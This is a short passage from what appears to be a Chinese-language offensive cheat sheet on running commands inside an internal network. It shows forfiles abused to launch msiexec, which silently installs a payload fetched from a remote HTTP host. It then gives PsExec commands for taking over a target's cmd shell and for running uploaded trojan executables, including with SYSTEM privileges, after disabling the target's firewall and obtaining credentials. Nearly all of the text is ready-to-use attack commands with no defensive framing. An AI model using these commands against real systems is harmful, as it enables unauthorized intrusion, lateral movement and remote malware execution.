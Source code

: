 

### forfiles执行【内网】

默认位置：
C:\Windows\System32\forfiles.exe
C:\Windows\SysWOW64\forfiles.exe

```
forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec /q /i http://192.168.1.252/haha.txt"
```



## 其他合法方法通过木马执行一些指令【内网执行】

###  **pstools微软官方自带的系统插件**：【需要下载解压】

**准备工作：**

1.目标主机防火墙最好关闭！
2.创建/获得对方计算机用户名密码！

**相关操作：**

在pstools命令下打开本机cmd窗口：

```
PsExec.exe \\[目标ip] -u [用户名administrator] -p [密码test123] cmd.exe
```

直接控制对方的cmd

```
psexec \\目标ip -u [目标用户名] -p [密码] cmd.exe
```

控制对方运行自己的b.exe

```
psexec \\目标ip -u [目标用户名] -p [密码] -c c:\b.exe
```

控制对方运行他电脑的a.exe

```
psexec \\目标ip -u [目标用户名] -p [密码] -d c:\a.exe
```

控制对方运行自己的b.exe并且以system权限运行

```
psexec \\目标ip -u [目标用户名] -p [密码] -s -c c:\b.exe
```

以显示的方式运行

```
psexec \\目标ip -u [目标用户名] -p [密码] -i -s -c c:\b.exe
```


